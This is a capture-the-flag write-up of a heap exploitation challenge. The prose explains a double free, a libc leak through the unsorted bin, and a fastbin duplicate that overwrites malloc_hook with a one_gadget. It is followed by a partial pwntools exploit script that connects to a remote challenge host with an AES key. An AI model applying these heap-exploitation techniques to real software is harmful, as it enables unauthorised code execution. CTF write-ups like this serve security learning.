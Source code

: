 Four functions,
Change-name,delete,add,exit.
,we can delete same idx twice. :face_vomiting: 
Max size of the chunk was 0x70 to allocate,
it allocates `input_size + 16` so if we allocte give size 0x68 it alloctes `malloc(0x68 + 16)` freeing this chunk would give unsorted bin, If we allocate back and send '\x00' as our data, The chunks data doesn't gets corrupted. and leak libc from here.
Next part was easy, libc 2.23 and fast-bin duplicate. :hammer: 

I changed malloc_hook with one_gadget.

#### exploit.
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
from Crypto.Cipher import AES
from binascii import unhexlify, hexlify

exe = context.binary = ELF('./chall')

host = args.HOST or '35.245.143.0'
port = int(args.PORT or 1337)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv,env={'LD_PRELOAD':'./libc.so.6'}, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

#---

io = start()
io.recvuntil('IV:')
IV = io.recvn(32)
if args.LOCAL:
	KEY = 'YELLOWSUBMARINES'
else:
	KEY = '\x59\x49\xee\xbb\x28\xe0\xdf\x11\xfe\xac\x0b\x73\xbd\xb4\xdb\xa2'
log.info('IV: {}'.format(IV))
io.recvuntil(':')
io.sendline('AAA')

#helpers
def enc(data):
	text = AES.new(KEY,AES.MODE_CBC,unhexlify(IV))
	return hexlify(text.encrypt(data))
```